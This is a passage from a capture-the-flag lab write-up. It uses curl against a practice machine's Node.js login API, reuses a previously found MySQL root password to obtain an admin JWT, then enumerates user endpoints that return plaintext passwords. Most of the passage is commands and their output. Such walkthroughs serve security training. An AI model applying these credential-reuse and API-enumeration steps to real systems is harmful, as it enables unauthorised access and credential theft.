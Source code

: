 If we try and emulate a form, we see that the `/login` endpoint returns us `bad request`.
```console
root@kali:/media/sf_Research# curl -F "username=root" -F "password=Zk6heYCyvZk6heYCyv6ZE9Xcg" -X POST http://10.10.10.137:3000/login
Bad Request
```


Some [brief research](https://medium.com/hyphe/token-based-authentication-in-node-6e8731bfd7f2) on NodeJS and JSON tokens shows us how to craft the proper header. Now, we're getting a `forbidden` response. This seems like our query is correct now, but our credentials are not.


```console
root@kali:/media/sf_Research# curl -s -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"username":"root","password":"Zk6heYCyv6ZE9Xcg","rememberMe":true}' http://10.10.10.137:3000/login
Forbidden
```

Intuition was key to success here, as the username `admin` appears to also use the MySQL root password we've previously found. Had we not added this to our list of usernames, we'd have been dead in the water. We see below that we're given the JWT to authenticate us on port `3000`.

```console
root@kali:/media/sf_Research# curl -s -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg","rememberMe":true}' http://10.10.10.137:3000/login
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYwNjQ4MDYwLCJleHAiOjE1NjA3MzQ0NjB9.mnXdriQeks-RRVtUmC5BnNl-P_HWWXhsb9fVQdJLmLI"}r
```

Lets use this token to get more info if we can. After a little playing around with the request headers we're able to authenticate into the `/users` directory, which returns a list of usernames.


```console
root@kali:/media/sf_Research# curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYwNjQ4MDYwLCJleHAiOjE1NjA3MzQ0NjB9.mnXdriQeks-RRVtUmC5BnNl-P_HWWXhsb9fVQdJLmLI" http://10.10.10.137:3000/users
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```


We also know that theres an endpoint `/users/admin`, and when we visit that we're given some credentials in plain text!
```console
root@kali:/media/sf_Research# curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYwNjQ4MDYwLCJleHAiOjE1NjA3MzQ0NjB9.mnXdriQeks-RRVtUmC5BnNl-P_HWWXhsb9fVQdJLmLI" http://10.10.10.137:3000/users/admin
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
```


The admin password above doesn't work on any of our login pages either, not in combination with any of our current usernames. So, after some head scratching there's more CTF intuition required. Perhaps other users on the site have their own API endpoints?
```console
root@kali:/media/sf_Research# curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYwNjQ4MDYwLCJleHAiOjE1NjA3MzQ0NjB9.mnXdriQeks-RRVtUmC5BnNl-P_HWWXhsb9fVQdJLmLI" http://10.10.10.137:3000/users/derry
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}

root@kali:/media/sf_Research# curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYwNjQ4MDYwLCJleHAiOjE1NjA3MzQ0NjB9.mnXdriQeks-RRVtUmC5BnNl-P_HWWXhsb9fVQdJLmLI" http://10.10.10.137:3000/users/yuri
{"name":"Yuri","password":"bet@tester87"}

```